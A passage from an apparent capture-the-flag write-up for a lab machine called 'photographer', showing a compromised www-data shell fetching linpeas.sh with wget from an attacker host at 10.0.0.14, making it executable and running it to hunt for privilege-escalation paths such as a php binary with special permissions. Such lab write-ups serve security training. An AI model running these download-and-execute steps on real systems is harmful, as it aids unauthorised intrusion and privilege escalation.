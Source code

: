 <br />
Transfer the results to the victim machine.

{% raw %}
```sh
www-data@photographer:/dev/shm$ wget 10.0.0.14:8000/linpeas.sh
wget 10.0.0.14:8000/linpeas.sh
--2025-01-31 07:22:25--  http://10.0.0.14:8000/linpeas.sh
Connecting to 10.0.0.14:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 839766 (820K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 820.08K  --.-KB/s    in 0.002s  

2025-01-31 07:22:25 (410 MB/s) - 'linpeas.sh' saved [839766/839766]

www-data@photographer:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.shs
```
{% endraw %}

<br />
Run linpeas and review the results.  Notice that the php binary has the sticky bit.

{% raw %}
```sh
www-data@photographer:/dev/shm$ ./linpeas.sh
./linpeas.sh



                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

<snip>

                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                          
```